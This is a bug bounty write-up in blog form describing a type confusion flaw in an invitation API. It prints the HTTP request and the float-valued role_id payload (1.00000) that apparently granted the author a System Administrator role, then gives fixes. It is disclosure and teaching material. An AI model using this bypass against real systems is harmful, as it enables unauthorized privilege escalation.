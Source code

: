 ```yaml
---
title: How I Tricked the System with Type Confusion and Became a System Admin (Briefly)
layout: post
categories: web
description: A brief story of how a Type Confusion vulnerability allowed privilege escalation in a real-world scenario.
summary: Discover how a type confusion bug allowed privilege escalation to a System Administrator role by simply tweaking a numeric value in an API request.
date: 2025-03-24
read_time: 5 min
image: https://miro.medium.com/v2/resize:fit:720/format:webp/1*SAY1UW6kMzBqE5t9z7ZNBg.jpeg
tags:
  - Type
  - Confusion
  - Privilege
  - Escalation
  - Security
  - Bug
  - Bounty
  - CTF
  - Vulnerabilities
  - Real-World
  - Stories
pin: true
comments: true
toc: true
---
```


## Prologue: A Hacker's Curiosity

As security researchers, we live for those moments of discovery — the subtle gaps in logic, the overlooked edge cases that turn into major vulnerabilities.

This is the story of how a simple data type discrepancy allowed me to bypass access controls and assign myself a **System Administrator** role for an entire organization.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*SAY1UW6kMzBqE5t9z7ZNBg.jpeg)
---

## Understanding Type Confusion

Type Confusion occurs when a program mistakenly treats one type of data as another, leading to unintended behavior.

Languages that support **loose typing**, like JavaScript and Python, are particularly vulnerable.

### Example in JavaScript:

```js
let role = "1";
if (role == 1) {
    console.log("Access granted");
} else {
    console.log("Access denied");
}
````

Even though `role` is a string (`"1"`), JavaScript's loose equality operator `==` coerces it into an integer (`1`), causing unintended access.

Correct way (strict type check):

```js
if (role === 1) {
    console.log("Access granted");
} else {
    console.log("Access denied");
}
```

---

## The Discovery: A Tale of Two Data Types

It all started with a routine inspection of an **invitation system's API**.
My goal? To see how roles were assigned during user invitations.

The `role_id` parameter caught my attention. It was an array, and at first glance, it seemed well-restricted.

### Available frontend roles:

* `3` – Admin
* `4` – Manager
* `5` – User

Trying a non-existing role like `2`:

```
400 Bad Request
```

Then I sent this request:

```http
POST /target/sms/v1/379831/invitation HTTP/2
Host: api.stg.target.com
Content-Type: application/json
Auth: Bearer <valid_token>

{
  "org_id": [379831],
  "role_id": [1],
  "user": {"email": "testuser@example.com"},
  "invitation_authentication_type": ["cred"],
  "is_new": false
}
```

Response:

```
403 Forbidden
```
![403](https://miro.medium.com/v2/resize:fit:720/format:webp/1*x1lK4hsPtdClXT4cK80HNw.png)

This caught my eye – `403` means **access denied**, but the role exists.

If `1` were **completely invalid**, I would expect a `400 Bad Request` like I saw with `2`.

---

## The Bypass: When `1` ≠ `1.00000`

I slightly changed the payload:

```json
{
  "role_id": [1.00000]
}
```

The response:

```
200 OK
```

![200 ok ](https://miro.medium.com/v2/resize:fit:720/format:webp/1*nmybvn8RV2_BLvxarLj7Cw.png)

And shortly after…
An invitation email confirming my **System Administrator** role arrived.

This was it. I had admin privileges over an entire organization!

![invite](https://miro.medium.com/v2/resize:fit:640/format:webp/1*hvfTElW82iAw-NmmCAIoeQ.png)

---

## Why Did This Happen?

The backend probably enforced strict checks on integers like `1`,
but when presented with `1.00000`, it might’ve coerced the value into a float or different representation that **bypassed** validation logic.

This is **Type Confusion** in action.

### How It Happens in Different Languages:

* **JavaScript:** `1 == "1"` → `true`
* **Python:** `int(1.00000) == 1` → `true`
* **C++:** Improper casting can lead to **memory corruption**

---

## The Potential Impact

If this flaw were fully exploitable, attackers could:

* Escalate privileges to **System Administrator**
* Assign **admin roles** to unauthorized users
* Gain **unrestricted access** to internal data

A small oversight, **massive implications**.

---

## How to Fix It

* **Strict Type Validation:** Enforce correct types on backend.
* **Input Normalization:** Sanitize & convert inputs before using them.
* **Authorization Checks:** Don’t rely on just value types — check if the user has **permission** to assign roles.

---

## Epilogue: The Reality of Bug Bounties

The report was **acknowledged but closed as a duplicate**.

Disappointing? Sure.
But also a reminder: **even tiny data inconsistencies** can lead to serious vulnerabilities.

For every closed report, there's another undiscovered flaw waiting to be found.

Until next time, stay curious, stay ethical, and keep hacking.

---
thanks for reading.
If you enjoyed this write-up, feel free to follow me on [Twitter](https://twitter.com/00xmora)